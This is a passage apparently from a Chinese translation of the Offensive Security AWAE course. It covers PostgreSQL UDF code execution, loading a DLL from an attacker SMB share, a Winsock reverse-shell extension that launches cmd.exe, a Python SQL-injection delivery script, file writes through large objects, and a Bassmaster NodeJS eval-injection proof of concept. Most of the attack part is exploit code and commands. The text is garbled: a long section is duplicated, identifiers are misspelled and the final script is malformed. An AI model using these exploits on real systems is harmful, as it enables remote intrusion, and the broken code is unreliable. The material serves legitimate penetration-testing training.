

以下示例显示了 `awae` 解决方案中的 `postgres.c` 源文件：

```c
01: #include "postgres.h"
02: #include <string.h>
03: #include "fmgr.h"
04: #include "utils/geos_decls.h"
05: #include <stdio.h>
06: #include "utils/builtins.h"
07: 
08: #ifdef PG_MODULE_MAGIC
09: PG_MODULE_MAGIC;
10: #endif
11: 
```


## 5.7.1 示例代码

/* 添加一个标记为 PGDEXPORT 的原型 */

```c
PGDEXPORT Datum awae(PG_FUNCTION_ARGS);

PG_FUNCTION_INFO_V1(awae);

/* 此函数启动第一个参数传递的可执行文件
在一个 FOR 循环中，通过第二个参数也传递+*/
Datum
awae(PG_FUNCTION_ARGS);
{
    /* 将文本指针转换为 C 字符串 */
    #define GET_STR(textp) DatumCString(DirectFunctionCall1(textout, PointerGetDatum(textp))

    /* 获取传递给函数的第二个参数（整数）
    它将作为我们的计数器限制* */
    int instances = PG_GETARG_INT32(1);
    for (int c = 0; c < instances; c++) {
        /* 启动第一个参数传递的进程 +/
        system(GET_STR(PG_GETARG_TEXT(0)));
    }
    return;
}
```

列表 197 - 示例代码

在上面的代码中，`awae` 函数接受一个字符串作为第一个参数，一个整数作为第二个参数。它根据指定的整数次数循环，在每次迭代中，它执行字符串中提供的命令。

要测试此函数，可以使用以下 SQL 查询：

```sql
SELECT awae('hostname', 3);
```

这将输出三次 `hostname`。

### 5.7.2 测试扩展

如果你不像我们，在开发代码时可能会犯一些错误。当这种情况发生时，你可能希望卸载扩展并重新开始。要这样做，必须停止服务：

```cmd
c:\> net stop "Applications Manager"
ManageEngine 服务已停止。
c:\>
```

列表 200 - 停止 ManageEngine 服务

停止服务后，删除加载到内存空间的 DLL 文件：

```cmd
c:\> del c:\awae.dll
```

列表 201 - 删除已加载的扩展

然后启动服务以便删除函数：

```cmd
c:\> net start "Applications Manager"
ManageEngine 服务已启动。
c:\>
```

列表 202 - 启动 ManageEngine 服务

最后，执行 SQL 语句删除函数：

```sql
DROP FUNCTION awae(text, integer);
```

列表 203 - 删除函数

现在你可以编辑扩展代码、重新编译并重新测试扩展。

### 5.7.3 从远程位置加载扩展

正如我们在上一节中看到的，`PostgreSQL` 设计为可扩展，我们能够编写自己的扩展 `DLL` 文件并基于它们创建 `UDF`。到目前为止，我们在远程服务器上编译并测试了恶意扩展。在真实场景中，我们需要找到一种方法将 `DLL` 上传到受害者服务器，然后加载它。

有趣的是，`PostgreSQL` 并不限制我们仅使用本地文件。换句话说，用于 `UDF` 的源 `DLL` 文件也可以位于网络共享上。

为了快速验证这一点，我们可以在 `Kali` 虚拟机上创建一个 `Samba` 共享并将 `DLL` 放置其中。

你可以像下面所示使用 `Impacket` `SMB` 服务器进行此练习：

```bash
kali@kali:~$ mkdir /home/kali/awae
kali@kali:~$ sudo impacket-msbserver awae /home/kali/awae/
[sudo] password for kali:
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies
```

列表 204 - 使用简单配置启动 Samba 服务以测试 dll 加载

一旦服务运行，我们可以创建一个新的 `Postgres` `UDF`（定义函数），并将其指向托管在网络共享上的 `DLL` 文件。

```sql
CREATE REPLACE FUNCTION remote_test(text, integer) RETURNS void AS
$$'192.168.2.209\awame.dll','awame'$$ LANGUAGE C STRICT;

SELECT remote_test('calc.exe', $3);
```

列表 205 - 从网络共享创建 UDF。192.168.2.209 是 Kali 攻击者的地址。

如果我们随后使用上一个示例中的 `remote_test` 函数运行 `SELECT` 查询，我们应该会再次在任务管理器中看到 `calc.exe` 的实例。

### 5.7.4 练习

重新创建本节中的 `DLL` 文件，并确保你的 `Postgres` `UDF` 函数能够成功生成 `calc.exe` 进程。

## 5.8 UDF 反弹 Shell

现在我们已经了如何使用 `PostgreSQL` 编写和执行任意代码，剩下的工作就是获取一个反弹 Shell。

此时，这应该并不困难。尽管如此，以下部分 C 代码将帮助你完成。

```c
#define WINSOCK_DEPRECATED_NO_WARNINGS

#include "postgres.h"

#include <string.h>

#include <fscanf.h>

#include "utils/geo_decls.h"

#include <stdio.h>

#include <winsock2.h>

#include "utils/builtins.h"

#pragma comment(lib, "ws2_32")

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

// 添加一个数据类型 connect
PGDLLEXPORT connect_back(PG_FUNCTION_ARGS);

PG_FUNCTION_INFO_V1(connect_back);

WSADATA wsaData;
SOCKET s1;
struct sockaddr_in has;
char ip_addr[16];
STARTUPINFO sui;
PROCESS_INFORMATION pi;
```

```c
Datum
connect_back(PG_FUNCTION_ARGS)
{
    /* 将 C 字符串转换为文本指针 */
    #define GET_TEXT(cstr) \
    DatumGetText(DirectFunctionCall(text, CStringGetDatum(cstr)))
    /* 将文本指针转换为 C 字符串 */
    #define GET_STR(text) \
    DatumGetStr(DirectFunctionCall(text, PointerDatum(text)))

    WSAStartup(MAKEWORD(2, 2), &wsaData);
    si = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);
    hax.sin_family = AF_INET;
    /* 修复此处 *//
    hax.sin_port = XXXXXXXX;
    /* 此处也要修复 *//
    hax.sin_addr.s_addr = XXXXXXXXXXXX;
    WSAConnect(si, (struct sockaddr *)&hax, sizeof(hax), NULL, NULL, NULL, NULL);
    memset(&sui, 0, sizeof(sui));
    sui.cb = sizeof(sui);
    sui.dwFlags = START_USESHANDLES | START_SHOWWINDOW;
    sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE)s1;
    CreateProcess(NULL, "cmd.exe", NULL, NULL, NULL, TRUE, NULL, NULL, &sui, &pi);
    PG_RETURN_VOID();
}
```

> 列表 206 - Postgres 扩展反弹 Shell

在编译上方列表中的代码之前，确保你已修复高亮的代码行。

一旦完成，使用以下 Python 脚本将你的有效负载发送到漏洞服务器：

```python
import requests, sys

requests.packages.urllib3.disable_warnings()

def log(msg):
    print(msg)

def make_request(url, sql):
    log("[*] Executing query: %s" % sql[0:80])
    r = requests.get(url % sql, verify=False)
    return r

def create_udf_func(url):
    log("Creating function...")
    sql = "--------FIX ME--------"
    make_request(url, sql)

def trigger_udf(url, ip, port):
    log("Launching reverse shell...")
    sql = "select rev_shell($$$$, %d)" % (ip, int(port))
    make_request(url, sql)

if __name__ == '__main__':
    try:
        server = sys.argv[1].strip()
        attacker = sys.argv[2].strip()
        port = sys.argv[3].strip()
    except IndexError:
        print("[-] Usage: %s serverIP attackerIP port" % sys.argv[0])
        sys.exit()

sqli_url = "https://%s" % server
create_udf_func(sqli_url)
trigger_udf(sqli_url, attacker, port)
```


```
[+] 配置文件解析
[*] 已为 UUID `4B324FC8-1670-01D3-1278-54AFB6EE18` 添加回调 `V:3.0`
[*] 已为 UUID `6BFF0D98-A112-3610-9833-46C3F87E345A` 添加回调 `V:1.0`
[*] 配置文件解析
[*] 配置文件解析
[*] 配置文件解析
```

## 列表 204 - 使用简单配置启动 Samba 服务以测试 dll 加载

一旦服务运行，我们可以创建一个新的 Postgres UDF，并将其指向托管在网络共享上的 DLL 文件。

```sql
CREATE REPLACE FUNCTION remote_test(text, integer) RETURNS void AS
$$'192.168.2.209\awame.dll','awame'$$ LANGUAGE C STRICT;
SELECT remote_test('calc.exe', $3);
```

## 列表 205 - 从网络共享创建 UDF。`192.168.2.209` 是 Kali 攻击者的地址。

如果我们随后使用上一个示例中的 `remote_test` 函数运行 `SELECT` 查询，我们应该会再次在任务管理器中看到 `calc.exe` 的实例。

### 5.7.4 练习

重新创建本节中的 DLL 文件，并确保你的 Postgres UDF 函数能够成功生成 `calc.exe` 进程。

## 5.8 UDF 反弹 Shell

现在我们已经展示了如何使用 PostgreSQL 编写和执行任意代码，剩下的工作就是获取一个反弹 Shell。

此时，这应该并不困难。尽管如此，以下部分 C 代码将帮助你完成。

```c
#define WINSOCK_DEPRECATED_NO_WARNINGS
#include "postgres.h"
#include <string.h>
#include <fscanf.h>
#include "utils/geo_decls.h"
#include <stdio.h>
#include <winsock2.h>
#include "utils/builtins.h"
#pragma comment(lib, "ws2_32")

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

// 添加一个数据类型 connect
PGDLLEXPORT connect_back(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(connect_back);

WSADATA wsaData;
SOCKET s1;

struct sockaddr_in has;
char ip_addr[16];
STARTUPINFO sui;
PROCESS_INFORMATION pi;
```

```c
Datum
connect_back(PG_FUNCTION_ARGS)
{
    /* 将 C 字符串转换为文本指针 */
    #define GET_TEXT(cstr) \
    DatumGetText(DirectFunctionCall(text, CStringGetDatum(cstr)))

    /* 将文本指针转换为 C 字符串 */
    #define GET_STR(text) \
    DatumGetStr(DirectFunctionCall(text, PointerDatum(text)))

    WSAStartup(MAKEWORD(2, 2), &wsaData);
    si = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);
    hax.sin_family = AF_INET;
    /* 修复此处 *//
    hax.sin_port = XXXXXXXX;
    /* 此处也要修复 *//
    hax.sin_addr.s_addr = XXXXXXXXXXXX;

    WSAConnect(si, (struct sockaddr *)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

    memset(&sui, 0, sizeof(sui));
    sui.cb = sizeof(sui);
    sui.dwFlags = START_USESHANDLES | START_SHOWWINDOW;
    sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE)s1;

    CreateProcess(NULL, "cmd.exe", NULL, NULL, NULL, TRUE, NULL, NULL, &sui, &pi);
    PG_RETURN_VOID();
}
```

> 列表 206 - Postgres 扩展反弹 Shell

在编译上方列表中的代码之前，确保你已修复高亮的代码行。

一旦完成，使用以下 Python 脚本将你的有效负载发送到漏洞服务器：

```python
import requests, sys
requests.packages.urllib3.disable_warnings()

def log(msg):
    print(msg)

def make_request(url, sql):
    log("[*] Executing query: %s" % sql[0:80])
    r = requests.get(url % sql, verify=False)
    return r

def create_udf_func(url):
    log("Creating function...")
    sql = "--------FIX ME--------"
    make_request(url, sql)

def trigger_udf(url, ip, port):
    log("Launching reverse shell...")
    sql = "select rev_shell($$$$, %d)" % (ip, int(port))
    make_request(url, sql)

if __name__ == '__main__':
    try:
        server = sys.argv[1].strip()
        attacker = sys.argv[2].strip()
        port = sys.argv[3].strip()
    except IndexError:
        print("[-] Usage: %s serverIP attackerIP port" % sys.argv[0])
        sys.exit()

sqli_url = "https://%s" # 此处根据上下文逻辑补全
create_udf_func(sqli_url)
trigger_udf(sqli_url, attacker, port)
```

# 高级网络攻击与利用

幸运的是，`lo_import` 函数还允许我们在创建大对象时将字段设置为我们选择的任意值。这将帮助我们解决 void 的问题。

```
ambd=# select lo_import('C:\Windows\win.ini', 1337);

lo_import

1337

(1 row)
```

> 列表 209 - 带有已知头的 lo_import

考虑到这一点，为了实现我们的目标，我们可以从远程系统上的任意文件创建一个大对象，并用我们选择的内容直接更新数据库中的条目。为此，我们首先需要知道这些大对象存储在数据库的什么位置。事实上，大对象存储在 `pg_largeobject` 表中。

```
ambd=# select void, pageno from pg_largeobject;

loid | pageno

-----------------------

1337 | 0

(1 row)
```

> 列表 210 大对象的位置

敏锐的读者会注意到上面列表中的 `pageno` 列。这是我们需要注意的另一个关键信息。更具体地说，当大对象导入到 PostgreSQL 数据库时，它们会被拆分为 2KB 的块，并单独存储在 `pg_largeobject` 表中。

正如 PostgreSQL 手册所述：

> 每页的数据量由 LOBLKSIZE 定义（当前为 BLKSZ/4，通常为 2 KB）。

现在我们已经知道了，让我们尝试更新从上一个示例中导入的 `win.ini` 文件的数据并将其导出。

首先，看看在导入后我们的大对象条目中包含什么。

```
ambd=# select loid, pageno, encode(data, 'escape') from pg_largeobject;

loid | pageno |

encode

1337 | 0 : for 8-bit support(r+

[fonts]\r +

[extensions]\r +

[mci extensions]\r +

[files]\r +

[Mail] +

MAPI=1\r +

(1 row)
```

> 列表 211 win.ini 文件的内容在大对象中

现在，让我们更新这个条目。

AWAE Copyright © 2019 Offsec Services Ltd. All rights reserved. 194

```
ambdb# update pg_largeobject set data=decode('77303074', 'hex') where loid=1337 and
pageno=0;

UPDATE 1

ambdb# select loid, pageno, encode(data, 'escape') from pg_largeobject;

loid | pageno | encode
```

> 列表 212 大对象的内容已更新。

最后，我们需要查看一下 `lo_export`。如下列表所示，该函数用于使用 `loid` 作为标识符从文件系统导出任意大对象。

```
ambdb# select lo_export(1337, 'C:\new_win.ini');

lo_export

1

(1 row)
```

快速查看导出的文件，发现我们确实成功地向文件系统写入了一个内容为我们选择的文件。



图 118：导出的大对象包含手动更新的内容

正如 Postgres UDF 的情况一样，在开发过程中我们还需要知道如何从数据库中删除大对象，因为错误是不可避免的。

`lo_list` 命令可以显示当前保存在数据库中的所有大对象。要从数据库删除大对象，可以使用 `lo_unlink` 函数（列表 214）。

```
ambdb# \lo_unlink 1337

lo_unlink 1337

ambdb# \lo_list

Large objects

ID | Owner | Description

---+----

(0 rows)
```

> 列表 214 删除大对象

## 5.9.2 大对象反 Shell

此时，我们应该熟悉执行整个攻击并获取反 Shell 需要的所有概念。让我们回顾之前章节的总体计划并添加一些细节：

1. 创建一个包含恶意代码的 DLL 文件
2. 注入一个从磁盘上任意远程文件创建大对象的查询
3. 注入一个查询将 DLL 的前 2KB 更新新创建的大对象的第 0 页
4. 注入查询向 `pg_largeobject` 表插入额外的页以包含 DLL 的剩余部分
5. 注入查询将我们的大对象（DLL）导出到远程服务器文件系统
6. 注入一个查询根据导出的 DLL 创建 PostgreSQL 用户定义函数 (UDF)
7. 注入一个查询执行我们新创建的 UDF

这看起来工作量很大。此外，这也需要解释，所以让我们开始吧。

我们已经看到如何创建一个基础的 PostgreSQL 扩展，所以我们可以移动到第 2 步。

# Bassmaster NodeJS 任意 JavaScript 注入漏洞

## 6.1 概述

本模块将涵盖对 Bassmaster 插件中发现的一个代码注入漏洞的深度分析和利用，该漏洞可用于访问底层操作系统。我们还将讨论如何审计服务器端 JavaScript 代码以发现此类关键漏洞。

## 6.2 入门

请从你的学生控制面板恢复 Bassmaster 虚拟机。请参考你的课程材料以查找 Bassmaster 的 bow 登录凭据（bow credentials）。

要启动 NodeJS 服务器，我们将通过 ssh 登录到 Bassmaster 虚拟机，并在终端中执行以下命令：

```bash
student@bassmaster:-$ cd bassmaster/
student@bassmaster:~/bassmaster$ nodejs examples/batch.js
Server started.
```

当服务器启动时，将在以下 URL 开放一个端点：

```
http://bassmaster:8080/request
```

## 6.3 Bassmaster 插件

在过去的几年里，无论好坏，我们的经历随着为了运行在 Node.js 之上的各种 JavaScript 框架和库的出现而演变。正如我们的开发者所描述的，Node.js 是“一个异步事件驱动的 JavaScript 运行时”，这意味着它能够处理多个请求，而无需使用“基于线程的网络”。我们鼓励你阅读更多关于 Node.js 的知识，但对于本模块，我们关注的是一个为 hapijs 框架开发的名为 Bassmaster 的插件，它运行在 Node.js 上。

本质上，Bassmaster 是一个批处理插件，可以将多个请求合并为一个并传递进行进一步处理。你虚拟机上安装的插件版本存在 JavaScript 代码注入漏洞，会导致服务器端代码执行。

现代 Web 应用扫描器可以检测各种复杂性不断增加的漏洞。Node-js 应用仍然面临着某种相当困难的发现挑战。尽管如此，在我们模块将讨论的示例中，我们能够对源代码进行审计，帮助我们在精炼代码审计技能的同时，发现并分析一个关键的代码执行漏洞。

该特定漏洞最感兴趣的一点是它会导致服务器端代码执行。在更典型的情况下，JavaScript 代码注入通常出现在客户端攻击攻击面上，并且被认为重要性低于跨站脚本（Cross-Site Scripting）等关键的漏洞类别。

## 6.4 漏洞发现

由于 Bassmaster 被设计为服务器端插件且我们拥有源代码访问权限，我们想要做的第一件事之一就是解析代码寻找任何触手可得的果实（low-hanging fruit）。对于 JavaScript 来说，搜索 `eval()` 函数应该是首要任务，因为它允许用户执行任意代码。如果 `eval` 可以通过用户控制的输入访问，则可能导致代码执行。

考虑到以上因素，让我们确定我们正在处理什么：

```bash
student@bassmaster:~$bassmaster $ grep -rn "eval(". + parts[i].value + ';\');

/lib/batch.js:152: eval('value = ref.' + parts[i].value + ';'); eval('p = (function proxy("
  vars.substring(0, proxylength * 2 - 1) + // eslint-disable-line no-eval

/node_modules/sinon/libon/spy.js:177:2543 eval('p = (function proxy("
  proxy() + vars.substring(0, proxylength * 2 - 1) + // eslint-disable-line no-eval

/node_modules/sinon/lib/spy.js:2543: eval('p = (function proxy("
  vars.substring(0, proxylength * 2 - 1) + // eslint-disable-line no-eval

/node_modules/lab/node_modules/espria/test/test.js:17218: } function eval() {

...

student@bassmaster:~$bassmaster
```

> 列表 218 - 使用 eval() 函数在 Bassmaster 代码库中搜索 lib/batch.js 文件

[^4]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval

从 `lib/batch.js` 的第 137 行开始，我们找到了名为 `internals.batch` 的函数的实现，它接受一个参数 `parts`。该参数数组随后用于第 152 行的 `eval` 函数调用。

```javascript
137: internals.batch = function (batchRequest, resultsData, pos, parts, callback) {
138:
139:   var path = '';
140:   var error = null;
141:
142:   for (var i = 0, il = parts.length; i < il; i++) {
143:     path += '/';
144:
145:     if (parts[i].type === 'ref') {
146:       var ref = resultsData.resultsMap[parts[i].index];
147:


### 代码片段

```javascript
if (ref) {
  var value = null;
  try {
    eval('value = ' + parts[i].value + ';');
  }
}
```

> 列表 219 - 使用 `batch.js` 的 `eval` 实例

在列表 218 中，第一个结果指向 `lib/batch.js` 文件，这看起来是开始我们调查的好地方。为了到达那里，我们需要确保 `parts` 数组的项是 `'ref'`。注意，如果没有 `ref`，我们将跳转到第 152 行，因为 `value` 变量被初始化为 `null`。

### 代码片段

```javascript
} catch (e) {
  error = e.message;
}

if (value) {
  if (value.match(/^\w+$/)) {
    path += value;
  } else {
    error = new Error('value includes illegal characters');
    break;
  }
} else {
  error = new Error('Reference not found');
  break;
}
```

> 列表 220 - `internals.dispatch` 代替执行匿名请求

重要的部分是第 194-203 行，`resultsData` 数组根据上一个请求的 HTTP 响应进行填充。最终，这将允许我们通过第 148 行的 `"ref"` 检查，并到达我们的目标第 152 行。由于 `eval` 执行字符串参数作为代码，当输入由用户控制时，这是非常不建议的。注意在这种情况下，`eval` 函数执行的是由 `parts` 数组项硬编码字符串组成的代码。这看起来是一个很有前景的线索，因此我们需要追溯代码执行路径，看看我们是否在某个时候控制了 `parts` 数组的内容。

# 攻击性安全

通过查看 `lib/batch.js` 的剩余部分，我们发现 `internals.batch` 函数在第 88 行（列表 222）被 `internal.process` 函数调用，该函数中有几个我们需要强调的相关部分。

首先，在第 85 行定义了一个名为 `callBatch` 的回调函数，并将对 `internals.batch` 函数的调用（称为 `parts`）作为第四个参数传递给 `internals.batch`。这就是我们处理控制的方式，我们需要跟踪它。

### 代码片段

```javascript
internals.process = function (request, requests, resultsData, reply) {

  var fnsParallel = [];
  var fnsSerial = [];
  var callBatch = function (pos, parts) {

    return function (callback) {
      internals.batch(request, resultsData, pos, parts, callback);
    };
  };
```

> 列表 222 - `process` 函数

然后位于第 92-101 行，填充了 `callBatch` 函数的 `fnsParallel` 和 `fnsSerial` 数组最终被传递给第 103 行的 `Async.series` 函数，它们在那里将触发 `callBatch` 函数的执行。

### 代码片段

```javascript
for (var i = 0, il = requests.length; i < il; i++) {
  var parts = requests[i];

  if (internals.hasPart(parts)) {
    fnsSerial.push(callBatch(i, parts));
  } else {
    fnsParallel.push(callBatch(i, parts));
  }
}

Async.series([
  function (callback) {
    Async.parallel(fnsParallel, callback);
  },
  function (callback) {
    Async.series(fnsSerial, callback);
  }
], function (err) {
  if (err) {
    reply(err);
  } else {
    reply(resultsData.results);
  }
});
```

> 列表 223 - `process` 函数的剩余部分

理解此逻辑最重要的部分是，第 96 和 99 行的 `callBatch` 函数使用名为 `parts` 的变量，该变量从 `requests` 数组填充，并作为第二个参数传递给 `internals.process` 函数。这正是我们需要继续跟踪的参数。

我们追踪练习的下一步是找到 `internals.process` 函数是从哪里调用的。再次，如果我们查看 `lib/batch.js` 文件，可以在第 69 行找到正在寻找的函数调用。

### 代码片段

```javascript
module.exports.config = function (settings) {

  return {
    handler: function (request, reply) {

      var resultsData = {
        results: [],
        resultsMap: []
      };

      var requests = [];
      var requestRegex = /(\?:\$(\d+)\)?([^/\\]]*))/g; // /project/$1.project/tasks, 不允许使用数组响应

      // 验证请求
      var errorMessage = null;
      var parseRequest = function ($0, $1, $2) {
        if ($1) {
          if ($1 < $i) {
            parts.push({type: 'text', index: $1, value: $2});
            return '';
          }
        } else {
          errorMessage = 'Request reference is beyond array size: ' + $1;
          return $0;
        }
      };
    }
  };
```

### 代码片段

```javascript
for (var i = 0, il = request.payload.requests.length; i < il; i++) {
  // 拆分为部分
  var parts = [];
  var result = request.payload.requests[i].replace(requestRegex, parseRequest);
  // 确保条目已处理（空）
  if (result === '') {
    requests.push(parts);
  } else {
    var errorMessage = errorMessage || 'Invalid request format at item: ' + i;
    if (errorMessage === null) {
      internals.process(request, requests, resultsData, reply);
    } else {
      reply(Boom.badRequest(errorMessage));
    }
  }
}
```

> 列表 224 - `Batch.config` 函数

我们将从头开始分析代码，看看我们如何到达 `internals.process` 调用。首先，`requestsData` 映射设置了 `requests` 和 `resultsMap` 数组（第 17 行）。随后，`requests` 变量中每个条目的 URL 路径在经过第 23 行定义的正则表达式处理后，被解析并拆分为部分（第 55 行）。这是我们需要处理的一个重要限制。

如果你不熟悉 JavaScript，这种情况的逻辑比较难以跟踪，我们将将其进一步拆解。具体来说，JavaScript 中的 `replace` 函数可以接受一个正则表达式作为第一个参数，接受一个函数作为第二个参数。在这种情况下，`replace` 函数操作的字符串（在本例中为 URL 路径）将首先通过正则表达式处理。结果是此操作返回多个参数，这些参数将作为第二个参数传递给函数。最后，函数本身执行，代码以清晰的方式进行。如果这个解释仍然让你感到困惑，我们建议你阅读 `String.prototype.replace` 的文档。

注意，`parseRequest` 函数最终负责将部分类型设置为 `"text"`，这正如我们之前描述，是到达我们的 `eval` 实例所需的。根据该逻辑，第 54 行定义的 `parts` 数组由第 32 和 41 行的 `parseRequest` 函数填充。如果我们能够控制传递给 `batch.js` 处理的路径，我们就能使用用户控制的数据到达我们的 `eval` 函数。但首先，我们需要找到列表 224 中 `module.exports.config` 函数在何处被调用。这引导我们找到了 `lib/index.js` 文件。

### 代码片段

```javascript
// 加载模块
var Hoek = require('hoek');
var Batch = require('./batch');

// 声明内部变量
var internals = {
  batchEndpoint: '/batch',
  description: 'A batch endpoint makes it easy to combine requests in a single call.',
  tags: ['bassmaster']
};

exports.register = function (pack, options, next) {
  var settings = Hoek.applyDefaults(internals, options);

  pack.route({
    method: 'POST',
    path: settings.batchEndpoint,
    config: Batch.config(settings)
  });

  next();
};
```

> 列表 225 - `lib/index.js` 中定义的 `/batch` 端

> 62 https://developer.mozilla.org/en-US/docs/Web/JavaScript/Global_Objects/String/replace#Specifying_a_function_as_parameter

列表中的代码显示 `/batch` 端通过 `batch.js` 文件中定义的 `config` 函数处理请求。这意味着向此端点的格式正确的请求最终将到达我们的 `eval` 目标！

那么我们如何为此端点创建一个格式正确的请求？幸运的是，Bassmaster 插件带有一个示例文件 `examples/batch.js`，它准确地告诉我们我们需要什么。

### 代码片段

```javascript
/*
 * 测试:
 *
 * 运行服务器并尝试如下批量请求：
 * POST /batch
 * { "requests": [{ "method": "get", "path": "/profile" }, { "method": "get", "path": "/item" }, { "method": "get", "path": "/item$1.id" }] }
 * 或者对 http://localhost:8080/request 的 get 请求将为你执行上述操作
 */

internals.requestBatch = function (request, reply) {
  internals.http.inject({
    method: 'POST',
    url: '/batch',
    payload: { "requests": [{ "method": "get", "path": "/profile" }, { "method": "get", "path": "/item" }, { "method": "get", "path": "/item$1.id" }] }
  });
  reply(res.result);
};

internals.main = function () {
  internals.http.route({
    { method: 'GET', path: '/profile', handler: internals.profile },
```


```js
{ method: 'GET', path: '/item', handler: internals.activeItem },
{ method: 'GET', path: '/item$1/id', handler: internals.item },
{ method: 'GET', path: '/request', handler: internals.requestBatch }
});
};
```

列表 226 - Bassmaster 示例代码

具体来说，从上面的列表中可以看到示例代码清晰地定义了两种到达批量处理函数的方法。第一种是通过对 `GET` 请求的间接路径

## 攻击性安全

如第 71 行所示的 `/request` 路由。第二个是向第 53 行在线的 `/batch` 内部端点的直接 `JSON POST` 请求。

尽管如此，我们可以使用以下 Python 脚本来发送示例请求的精确副本：

```python
import requests,sys

if len(sys.argv) != 2:
    print("usage: %s <target>" % sys.argv[0])
    sys.exit(1)

target = "http://%s:8080/batch" % sys.argv[1]

request_1 = {"method":"get","path":"/profile"}
request_2 = {"method":"get","path":"/item"}
request_3 = {"method":"get","path":"/item/$1.id"}

json = {"Requests":[%s,%s,%s]} % (request_1, request_2, request_3)

r = requests.post(target, json=json)

print(r.text)
```

Listing 227 - 根据 `~/bassmaster/examples/batch.js` 中的注释运行请求的脚本

一旦使用 `bassmaster` 示例文件启动 `Node.js` 运行时，我们就可以执行我们的脚本。如果一切运行符合预期，我们应该收到如下的响应：

```bash
kali@kali:$bassmaster python bassmaster_valid.py bassmaster
[{"id":"f6bdda9db1b","name":"John Doe"},{"id":"55cf687663","name":"Active Item"},{"id":"55cf678663","name":"Item"}]
kali@kali:$bassmaster$
```

Listing 228 - 预期响应是向 `bassmaster` 服务器上的 `/batch` 的有效 `POST` 提交

此时，我们可以开始思考恶意请求应该是什么样，以便到达我们想要针对的 `eval/function`。

## 6.5 触发漏洞

事实证明，我们 `JSON` 请求中唯一的“清理”是通过我们在上一节中提到的正则表达式完成的，该正则表达式用于检查有效的项目格式。作为一个快速回顾，该正则表达式看起来如下所示：

```js
//(?:\/)?(?:\$(\d+)\.*)?([^\$]+)/g
```

Listing 229 - 用于匹配的正则表达式

描述和理解正则表达式的一种简单方法是使用提供正则表达式测试环境的公共网站之一。在这种情况下，我们将使用原始负载中的一个已知字符串并进行细微修改。



图 119：找到匹配第二个组的字符串

我们可以看到，正斜杠本质上被用作字符串分隔符，斜杠之间的字符串使用点字符作为分隔符进行分组，但只有 `$\d` 被匹配了。

在图 119 中，我们尝试向原始负载中注入字符串 `*,hacked*` 并成功通过了正则表达式测试。由于 `*` 字符会终止 JavaScript 中的语句，我们现在应该能够在原始指令后面添加代码并查看我们是否执行了它！作为概念证明，我们可以使用 `NodeJS` `util` 模块的 `log` 方法向控制台写入消息。首先，让我们双重检查这是否对我们的正则表达式有效。

⁵⁴ https://regex101.com/
⁶⁵ https://nodejs.org/api/util.html#util_log

## 攻击性安全
www.offensivesecurity.com

高级网络攻击与利用

| 正则表达式 | 解释 |
| --- | --- |
| `/\(?\(\$\d\)?.*?\*\)/` | 匹配信息 |
| 测试字符串 | 匹配 1 |
| `/item\$1.id;require('util').log('hacked');` | 完整匹配 0-5 `'/item'` |
| | 组 2 n/a `'item'` |
| | 匹配 2 |
| | 完整匹配 5-43 `'/$1.id;require('util').log('hacked');'` |
| | 组 1 n/a `'1'` |
| | 组 2 n/a `'require('util').log('hacked');'` |

图 120：带有正则表达式的负载

在图 120 中，我们的整个负载被分组在组 2 中，这意味着我们应该到达 `eval` 函数并且我们的负载应该执行。让我们将其添加到脚本看看我们是否获得了任何输出。

下面的概念证明可以为我们完成工作。它构建 `JSON` 负载并将我们选择的代码附加到最后一个请求项。

```python
import requests,sys

if len(sys.argv) != 3:
    print("(+) usage: %s <target> <cmd_injection> %s" % sys.argv[0])
    sys.exit(-1)

target = "http://%s:8080/batch" % sys.argv[1]

cmd = sys.argv[2]

request_1 = {'method":"get","path":"/profile"}
request_2 = {'method":"get","path":"/item"}
